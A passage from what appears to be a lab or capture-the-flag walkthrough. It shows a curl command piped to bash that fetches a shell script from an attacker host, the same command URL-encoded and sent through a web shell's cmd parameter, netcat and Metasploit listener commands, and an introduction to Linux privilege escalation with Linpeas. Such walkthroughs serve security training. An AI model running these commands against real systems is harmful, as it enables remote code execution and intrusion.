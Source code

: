 Once you have a server started hosting the file, we can compile a command to execute the file. Find the command below.

Unencoded command:` curl http://10.x.x.x:80/shellscript.sh|bash &`

As we have already mentioned, special characters can cause issues within URLs. To combat this, we can utilize URL encoding on any special characters. Find the encoded command below.

Encoded command: curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26

The above command is entirely ready to go. You will only need to change the IP address and the file name within the command; this does not require you to change any of the URL encoding present.

You can now start a listener using Netcat or Metasploit to catch your reverse shell once executed. Find commands below to start listeners.

    nc -lvnp 53
    use exploit/multi/handler

Now that you have the full payload and execution command ready, you can use it and the RCE to gain a shell onto the box. Find the full command below.

Command used: `curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26'`

# Privilege Escalation Call me Mario, because I got all the bits                            

**Note:** Please be mindful of other users trying to proceed in the network. Please do not stop the Docker container from running.  It will prevent users from proceeding throughout the network. Also,  please clean up after yourself. If you transfer a docker container image to the VM, remember to remove it after you finish elevating privileges.

Now that we have a shell on L-SRV01 and escaped the container, we need to  perform local privilege escalation to gain root on the box.

Local privilege escalation is when you take your average level user  access and exploit misconfigurations and applications to gain privileged level access. This is typically done by exploiting a specific  application or service that was misconfigured on the device.

Several resources can help you through privilege escalation on Linux. Some of these resources are outlined below for you to use.

- https://book.hacktricks.xyz/linux-unix/privilege-escalation
- https://github.com/swisskyrepo/PayloadsAllTheThings/
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

In this task, we will be covering one specific privilege escalation  technique and a script that we can use to speed along the process of  finding misconfigurations we can exploit.

We will utilize a script called Linpeas to run a thorough check of  potential exploits to begin our privilege escalation attempts. https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.

To use Linpeas, we need to download the script from the repository  above on our attacking machine. Then we can utilize a web hosting  service such as http.server, updog, or php to host the file onto the  target machine. Linpeas does not require any arguments or parameters to  run; you only need to run it as a standard binary.
